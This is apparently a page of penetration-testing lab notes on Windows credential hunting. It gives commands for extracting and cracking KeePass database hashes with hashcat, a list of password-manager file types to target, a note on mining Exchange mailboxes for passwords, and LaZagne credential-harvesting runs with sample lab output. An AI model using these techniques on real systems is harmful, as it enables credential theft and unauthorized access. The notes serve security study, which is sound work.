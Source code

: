 ## 🔐 Password Managers

### KeePass Database Cracking
```bash
# Extract hash from .kdbx file
python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx

# Example hash output:
ILFREIGHT_Help_Desk:$keepass$*2*60000*222*f49632ef7dae20e5a670bdec2365d5820ca1718877889f44e2c4c202c62f5fd5*...

# Crack with Hashcat (mode 13400)
hashcat -m 13400 keepass_hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt

# Example result:
$keepass$*2*60000*222*...:panther1
```

### Password Manager Targeting
```cmd
# Common password manager files:
*.kdbx          # KeePass databases
*.1pif          # 1Password exports
*.psafe3        # Password Safe
*.bks           # Various backup files
```

## 📧 Email Credential Mining

### MailSniper for Exchange
```powershell
# Search Exchange mailboxes for credentials
# Target terms: "pass", "creds", "credentials", "password"
# Requires domain user context with Exchange access
```

## 🛠️ LaZagne - Automated Extraction

### Comprehensive Credential Harvesting
```cmd
# Run all LaZagne modules
.\lazagne.exe all

# Example output:
########## User: jordan ##########

------------------- Winscp passwords -----------------
[+] Password found !!!
URL: transfer.inlanefreight.local
Login: root
Password: Summer2020!
Port: 22

------------------- Credman passwords -----------------
[+] Password found !!!
URL: dev01.dev.inlanefreight.local
Login: jordan_adm
Password: ! Q A Z z a q 1
```
